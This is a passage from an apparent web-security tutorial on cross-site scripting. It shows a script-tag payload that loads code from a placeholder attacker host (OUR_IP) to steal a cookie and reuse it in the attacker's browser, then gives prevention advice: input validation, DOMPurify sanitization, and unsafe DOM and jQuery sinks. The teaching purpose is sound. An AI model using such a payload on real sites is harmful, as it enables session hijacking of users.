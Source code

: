 And the payload as:
```html
<script src=http://OUR_IP/script.js></script>
```

Once we get the cookie value, change it in our browser.

> Launch the HTTP server with PHP because we are using PHP files.
{: .prompt-info}

---

# Prevention 

## Front-end 

As the front-end of the web application is where most of the user input is taken from, it is essential to sanitize and validate the user input on the front-end using JavaScript. Always validate user input:
```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

Sanitize the input:
```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

We should always ensure that we never use user input directly within certain HTML tags, like:
- JavaScript code `<script></script>`
- CSS Style Code `<style></style>`
- Tag/Attribute Fields `<div name='INPUT'></div>`
- HTML Comments `<!-- -->`

We should avoid using JavaScript functions that allow changing raw text of HTML fields, like:
- `DOM.innerHTML`
- `DOM.outerHTML`
- `document.write()`
- `document.writeln()`
- `document.domain`

An the following jQuery functions:
- `html()`
- `parseHTML()`
- `add()`
- `append()`
- `prepend()`
- `after()`
- `insertAfter()`
- `before()`
- `insertBefore()`
- `replaceAll()`
- `replaceWith()`
